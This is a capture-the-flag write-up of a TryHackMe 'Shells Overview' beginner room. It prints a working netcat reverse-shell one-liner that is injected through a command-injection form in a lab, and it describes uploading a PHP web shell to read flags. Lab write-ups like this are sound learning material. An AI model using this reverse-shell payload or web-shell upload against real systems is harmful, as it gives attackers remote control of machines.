

# Shells Overview

# Info

- Author: Huan Phan Canh Dang
- Finish: 8/12/2025
- GitHub: harrybrwnie

# Overview

The Shells Overview room on TryHackMe is part of the Cyber Security 101 learning path, designed for beginners to understand the concept of shells in cybersecurity. Shells are command-line interfaces that allow interaction with an operating system, and in the context of cybersecurity, they are critical tools used by attackers to remotely control compromised systems. This room focuses on explaining different types of shells (reverse, bind, and web shells), their use cases, and how to implement them in controlled environments for penetration testing.

# Learning Objectives

- Understand the role of shells in offensive security and post-exploitation
- Differentiate between reverse shells, bind shells, and web shells
- Learn to exploit vulnerabilities (e.g command injection, unrestricted file upload) to deploy shells
- Gain insight into detecting and mitigating shells from a defensive perspectives

# Question 1



Get into the URL and observed that there is a page get file on server and output the hash of that file.


Try to get the hash of hello.txt file


Using this payload to get a reverse shell

```python
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.201.123.82 4444 >/tmp/f
```

On our machine, listen on port 4444 by using the nc command


Paste the payload into the form and send it to the server, then server will executes that payload


After had sent the payload, we get the reverse shell

Then investigated server and found there is a flag.txt at / directory and cat it out to get the flag


## Question 2


On our machine, create a shell.php file

In the file content, we use php to set a cmd parameter for server to implement


Then upload shell.php onto server


By changing the URL to force server execute the code (.php) and set cmd to our command (cat /flag.txt) we get the flag


